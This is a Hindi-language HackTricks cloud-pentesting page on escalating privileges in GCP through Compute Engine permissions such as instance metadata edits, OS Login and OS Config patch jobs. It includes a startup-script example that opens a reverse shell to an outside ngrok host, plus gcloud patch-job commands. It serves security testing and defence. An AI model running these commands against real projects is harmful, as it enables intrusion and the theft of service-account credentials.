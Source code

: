 # GCP - कंप्यूट प्राइवेस्क

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें द्वारा PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## कंप्यूट

कंप्यूट और VPC (नेटवर्क) के बारे में अधिक जानकारी के लिए GCP में जांचें:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
ध्यान दें कि सभी प्रिविलेज इस्केलेशन अटैक्स को करने के लिए जो मेटाडेटा को संशोधित करने की आवश्यकता होती है (जैसे नए उपयोगकर्ताओं और SSH कुंजियों को जोड़ना), उसके लिए **आपके पास इंस्टेंस से जुड़े SA पर `actAs` अनुमतियाँ होनी चाहिए**, भले ही SA पहले से ही जुड़ा हो!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

इस अनुमति के साथ आप एक इंस्टेंस की मेटाडेटा जानकारी को **संशोधित** कर सकते हैं और एक उपयोगकर्ता की **अधिकृत कुंजियाँ बदल सकते हैं**, या **sudo अनुमतियों वाले नए उपयोगकर्ता बना सकते हैं**। इसलिए, आप किसी भी VM इंस्टेंस में SSH के माध्यम से exec कर सकेंगे और वहाँ से GCP सेवा खाता चुरा सकेंगे।\
सीमाएँ:

* ध्यान दें कि डिफ़ॉल्ट रूप से VM इंस्टेंस में चल रहे GCP सेवा खातों का **बहुत ही सीमित दायरा** होता है
* आपको **SSH सर्वर से संपर्क करने की क्षमता** होगी

इस अनुमति को कैसे शोषण करने के बारे में अधिक जानकारी के लिए जांचें:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

आप नए स्टार्टअप स्क्रिप्ट जोड़कर और इंस्टेंस को रिबूट करके भी इस हमला कर सकते हैं:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

यह अनुमति **पिछली अनुमति के समान विशेषाधिकार** प्रदान करती है लेकिन पूरे परियोजना के बजाय विशेष उदाहरणों के लिए। **पिछले खंड के लिए एक ही शोषण और सीमाएं लागू होती हैं**।

### `compute.instances.setIamPolicy`

इस प्रकार की अनुमति आपको **पिछली अनुमतियों के साथ खुद को एक भूमिका प्रदान करने** और उनका दुरुपयोग करके विशेषाधिकारों को उन्हें बढ़ाने की अनुमति देगी।

### **`compute.instances.osLogin`**

यदि **इंस्टेंस में OSLogin सक्षम है**, तो इस अनुमति के साथ आप बस **`gcloud compute ssh [INSTANCE]`** चला सकते हैं और इंस्टेंस से कनेक्ट कर सकते हैं। आपके पास इंस्टेंस के अंदर **रूट विशेषाधिकार नहीं होंगे**।

{% hint style="success" %}
इस अनुमति के साथ वीएम इंस्टेंस के अंदर सफलतापूर्वक लॉगिन करने के लिए, आपको वीएम से संबंधित एसए के उपर `iam.serviceAccounts.actAs` अनुमति होनी चाहिए।
{% endhint %}

### **`compute.instances.osAdminLogin`**

यदि **इंस्टेंस में OSLogin सक्षम है**, तो इस अनुमति के साथ आप बस **`gcloud compute ssh [INSTANCE]`** चला सकते हैं और इंस्टेंस से कनेक्ट कर सकते हैं। आपके पास इंस्टेंस के अंदर **रूट विशेषाधिकार होंगे**।

{% hint style="success" %}
इस अनुमति के साथ वीएम इंस्टेंस के अंदर सफलतापूर्वक लॉगिन करने के लिए, आपको वीएम से संबंधित एसए के उपर `iam.serviceAccounts.actAs` अनुमति होनी चाहिए।
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

एक वर्चुअल मशीन बनाना संभव है और सेवा खाते का टोकन चुरा सकते हैं जो प्रिविलेज बढ़ाने के लिए मेटाडेटा तक पहुंचने की अनुमति देता है।

इस विधि के लिए शोषण स्क्रिप्ट [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py) मिल सकता है।

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

यदि आपके पास **`osconfig.patchDeployments.create`** या **`osconfig.patchJobs.exec`** अनुमतियाँ हैं तो आप एक [**पैच जॉब या डिप्लॉयमेंट**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) बना सकते हैं। यह आपको परियोजना के सभी कंप्यूट इंस्टेंस पर साइडवेज़ में चलने और कोड क्रियान्वयन हासिल करने की अनुमति देगा।

इसे मैन्युअल रूप से शोषण करना चाहते हैं तो आपको या तो एक [पैच जॉब](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) बनाना होगा या [डिप्लॉयमेंट](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) चलाना होगा:

`gcloud compute os-config patch-jobs execute --file=patch.json`

एक पैच डिप्लॉयमेंट डिप्लॉय करने के लिए:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

स्वचालित टूलिंग जैसे [patchy](https://github.com/rek7/patchy) में लापरवाह अनुमतियों का पता लगाने और स्वचालित रूप से साइडवेज़ करने के लिए मौजूद है।

**आप इसे स्थायित्व के लिए भी दुरुपयोग कर सकते हैं।**

### `compute.machineImages.setIamPolicy`

अपने आप को **कंप्यूट इमेज के लिए अतिरिक्त अनुमतियाँ प्रदान** करें।

### `compute.snapshots.setIamPolicy`

एक डिस्क स्नैपशॉट के लिए अतिरिक्त अनुमतियाँ प्रदान करें।

### `compute.disks.setIamPolicy`

एक डिस्क के लिए अतिरिक्त अनुमतियाँ प्रदान करें।

### एक्सेस स्कोप्स को छलना

इस लिंक के माध्यम से आपको कुछ [**आइडियाज़ मिलेंगे जिन्हें आइडियाज़ को छलने के लिए कोशिश करने के लिए**](../)।

### GCP कंप्यूट इंस्टेंस में स्थानिक विशेषाधिकार उन्नति

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## संदर्भ

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)
